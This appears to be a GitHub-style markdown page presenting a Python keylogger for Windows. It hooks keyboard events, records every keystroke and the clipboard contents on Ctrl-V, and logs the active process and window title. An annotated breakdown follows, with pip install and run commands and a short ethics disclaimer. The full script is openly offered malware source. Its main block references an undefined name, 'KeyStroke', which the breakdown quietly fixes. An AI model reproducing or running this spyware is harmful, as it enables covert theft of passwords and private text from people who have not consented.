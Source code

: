 This script is a **keylogger** that captures keystrokes and clipboard data in Windows. Below is a detailed breakdown of its components.

```python
from ctypes import *
import pythoncom
import pyHook
import win32clipboard

# alternative if you have issues with pyHook on Win10:
# import pyWinhook as pyHook

user32 = windll.user32
kernel32 = windll.kernel32
psapi = windll.psapi
current_window = None

def get_current_process():
    # get a handle to the foreground window
    hwnd = user32.GetForegroundWindow()
    
    # find the process ID and store it
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd, byref(pid))
    process_id = f"{pid.value}"
    
    # grab the executable 
    executable = create_string_buffer(b"\x00" * 512)
    h_process = kernel32.OpenProcess(0x400 | 0x10, False, pid)
    psapi.GetModuleBaseName(h_process, None, byref(executable), 512)
    
    # read the title
    window_title = create_string_buffer(b"\x00" * 512)
    length = user32.GetWindowTextA(hwnd, byref(window_title), 512)
    
    # print the header if we're in the right process
    print()
    print(f"[ PID: {process_id} - {executable.value} - {window_title.value}]")
    print()
    
    # close handles
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)
    
def key_stroke(event):
    global current_window
    
    # check if target changed windows
    if event.WindowName != current_window:
        current_window = event.WindowName
        get_current_process()
        
    # if they pressed a standard key
    if 32 < event.Ascii < 127:
        print(chr(event.Ascii), end=" ")
    else:
        # if [Ctrl-V] get the value on the clipboard
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            print(f"[PASTE] - {pasted_value}", end=" ")
        else:
            print(f"{event.Key}", end=" ")
    
    # pass execution to next hook registered
    return True
    
# create and register a hook manager
kl = pyHook.HookManager()
kl.KeyDown = KeyStroke

# register the hook and execute forever
kl.HookKeyboard()
pythoncom.PumpMessages()
```


# **🛠 Code Breakdown**

### **1️⃣ Import Required Modules**
```python
from ctypes import *
import pythoncom
import pyHook
import win32clipboard
```
- **`ctypes`** → Used for interacting with Windows APIs.
- **`pythoncom`** → Handles Windows COM messages.
- **`pyHook`** → Captures keyboard events.
- **`win32clipboard`** → Reads clipboard contents.

---

### **2️⃣ Windows API Setup**
```python
user32 = windll.user32
kernel32 = windll.kernel32
psapi = windll.psapi
current_window = None
```
- **Loads Windows DLLs** (`user32.dll`, `kernel32.dll`, `psapi.dll`).
- **`current_window`** tracks active windows.

---

### **3️⃣ Get the Active Window and Process**
```python
def get_current_process():
    hwnd = user32.GetForegroundWindow()
    
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd, byref(pid))
    process_id = f"{pid.value}"
    
    executable = create_string_buffer(b"\x00" * 512)
    h_process = kernel32.OpenProcess(0x400 | 0x10, False, pid)
    psapi.GetModuleBaseName(h_process, None, byref(executable), 512)
    
    window_title = create_string_buffer(b"\x00" * 512)
    length = user32.GetWindowTextA(hwnd, byref(window_title), 512)
    
    print(f"\n[ PID: {process_id} - {executable.value} - {window_title.value} ]\n")
    
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)
```
✔ **Identifies the currently active process.**  
✔ **Retrieves the process ID, executable name, and window title.**  
✔ **Prints the active window’s details.**

---

### **4️⃣ Capture Keystrokes**
```python
def key_stroke(event):
    global current_window
    
    if event.WindowName != current_window:
        current_window = event.WindowName
        get_current_process()
        
    if 32 < event.Ascii < 127:
        print(chr(event.Ascii), end=" ")
    else:
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            print(f"[PASTE] - {pasted_value}", end=" ")
        else:
            print(f"{event.Key}", end=" ")

    return True
```
✔ **Logs key presses and clipboard content.**  
✔ **Detects when the window changes and retrieves process details.**  
✔ **Captures standard keys and special keys (`Ctrl + V` clipboard paste).**

---

### **5️⃣ Hook Keyboard Events**
```python
kl = pyHook.HookManager()
kl.KeyDown = key_stroke

kl.HookKeyboard()
pythoncom.PumpMessages()
```
✔ **Registers a global keyboard hook using `pyHook`.**  
✔ **Captures keystrokes continuously.**

---

# **🚀 How to Run**
### **1️⃣ Install Dependencies**
```sh
pip install pyHook pywin32
```

### **2️⃣ Run the Script**
```sh
python keylogger.py
```

---

# **⚠️ Ethical and Legal Concerns**
✔ **Unauthorized keylogging is illegal** without consent.  
✔ **Use only for penetration testing or security audits.**  
✔ **Ensure compliance with cybersecurity laws.**  
